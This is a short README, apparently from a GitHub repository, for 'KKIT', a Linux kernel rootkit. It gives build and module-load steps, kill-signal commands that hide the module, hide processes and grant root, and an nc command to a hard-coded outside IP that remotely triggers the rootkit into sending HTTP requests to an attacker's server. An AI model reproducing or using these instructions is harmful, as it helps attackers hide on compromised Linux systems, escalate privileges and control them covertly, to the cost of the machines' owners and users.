 # KKIT
A Linux Kernel RootKit

## Install
```shell
make

insmod kkit.ko
```

## USE
hide/show the module:
```shell
kill -62 0
```
hide/show process:
```shell
kill -60 pid
```
getroot:
```shell
kill -61 0
```
Trigger to send a http request:
```shell
# Server:
nc -p 1338 120.46.219.162 50005 -u
fdsfasd
```
If the kkit received a udp packet sended from 1338 port to 50005 port, the kkit will send a http packet to the targeted server ip;
```shell
#server:
python3 -m http.server 50002
```

